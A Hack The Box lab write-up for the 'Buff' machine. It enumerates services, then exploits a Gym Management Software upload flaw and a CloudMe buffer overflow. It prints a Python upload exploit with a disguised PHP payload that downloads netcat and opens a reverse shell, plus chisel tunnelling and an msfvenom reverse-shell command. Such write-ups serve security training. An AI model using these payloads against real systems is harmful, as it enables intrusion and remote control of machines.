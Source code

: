 ```yaml
---
permalink: /portfolio/htb_windows/
author: Rick Theeuwes

defaults:
  # _pages
  - scope:
      path: ""
      type: pages
    values:
      layout: single
      author_profile: true
toc: true
title: Buff
---
```


# Linux Hack The Box Writeup for Buff

## Enumeration

As always, we start of with an nmap:

```bash
sudo nmap 10.10.10.198 -p 7680,8080 -sC -sV -oN nmap.txt
```

Before this command I ran `nmap 10.10.10.198 -p-` to get the ports 7680 and 8080. The flag `-sC` stands for default enum-scripts, and the `-sV` flag is for the version enumeration scripts. `-oN` states that all the text-results should be saved to the file named `nmap.txt`. 

With the result:

```bash
# Nmap 7.80 scan initiated Tue Sep  1 11:06:01 2020 as: nmap -p 7680,8080 -sC -sV -oN nmap.txt 10.10.10.198
Nmap scan report for 10.10.10.198 (10.10.10.198)
Host is up (0.091s latency).

PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Sep  1 11:07:12 2020 -- 1 IP address (1 host up) scanned in 71.03 seconds
```

I don't know what `pando-pub` is, so let's take a look at the website first. It appears to be Gym-management software.

![gym](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/gym.png)

Alright, let's take a look around.

![contacts](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/contact.png)

A software name and version, perfect! So, we are dealing with `Gym Management Software 1.0` here. That does not sound secure, let's see if anyone already found an exploit:

```bash
searchsploit Gym Management
```

![searchsploit](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/searchsploit.png)

It appears a problem with filtering in a picture upload, in `upload.php`. If we put some image magic bytes in front of a php-script, it will accept it and we can run the php-script. Running the exploit found on exploit-db gives us this weird pseudo-shell, which sends a new request for every command. This is not usefull, so we have to edit it.

![pseudo](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/psuedo.png)

So, I modified it to this:

```python
import requests, sys, urllib, re

if __name__ == "__main__":
        SERVER_URL = 'http://10.10.10.198:8080/'
        UPLOAD_DIR = 'upload.php?id=shel'
        UPLOAD_URL = SERVER_URL + UPLOAD_DIR
        s = requests.Session()
        s.get(SERVER_URL, verify=False)
        png     = {
                'file': 
                  (
                    'kaio-ken.php.png', 
                    '\x89\x50\x4e\x47\x0d\x0a\x1a \n <?php echo shell_exec("powerShell (New-Object System.Net.WebClient).DownloadFile(\'http://10.10.14.16/nc.exe\' \'nc.exe\'); 2>&1; ./nc.exe -e cmd.exe 10.10.14.16 8090"); ?>',
                    'image/png', 
                    {'Content-Disposition': 'form-data'}
                  ) 
        }
        fdata   = {'pupload': 'upload'}
        r1 = s.post(url=UPLOAD_URL, files=png, data=fdata, verify=False)
        print r1.text

```

This payload sends a file upload to the victim with a php-script. This script executes a `powershell` command, to download netcat (`nc.exe`) and execute it with `cmd.exe` to my kali. This generates a reverse shell and allows me to do much more.

## Exploitation

In order to execute the script, we navigate to `http://10.10.10.198:8080/upload/shel.php`, this executes the uploaded php-script and allows us to get the shell. We do need to have a python-webserver running so the victim can download netcat and we need to have a netcat listener to catch it.

![shell](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/shell.png)

And there it is, a reverse shell!
This also gives us access to the `user.txt` file, located in `C:\Users\shaun\Desktop\user.txt`


## Privelege escaltion

So, how do we go from here? Well, after looking around shaun's home folder, I found `CloudMe_1112.exe` in his Downloads folder. This means that `Cloud Me` is installed, with version number `1112`, or `1_11_2`. This version is vulnerable to a buffer overflow.

![overflow](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/overflow.png)

But, this is a python-based exploit, so we cannot run this on the victim. To run this exploit, we need a reverse proxy, so we can use the locally open port. I used (`chisel`)[https://github.com/jpillora/chisel] for the proxy.

```bash
#kali
./chisel server --port 9002 --reverse

#victim
powerShell (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.2/chisel.exe','C:\users\shaun\downloads\chisel.exe');
.\chisel.exe client 10.10.14.2:9002 R:8888:127.0.0.1:8888
```

Okay, now we have our reverse connection we can generate and run the exploit. We use the first exploit (`48389.py`), but we still need a payload for the victim to execute, let's generate that with `msfvenom`

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=8091 EXITFUNC=thread -b "\x00\x0d\x0a" -f python
```

Still generates a byte-code payload for a reverse shell back to me. And after executing this we catch a shell on our listener!

![root](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/root.png)

Done!
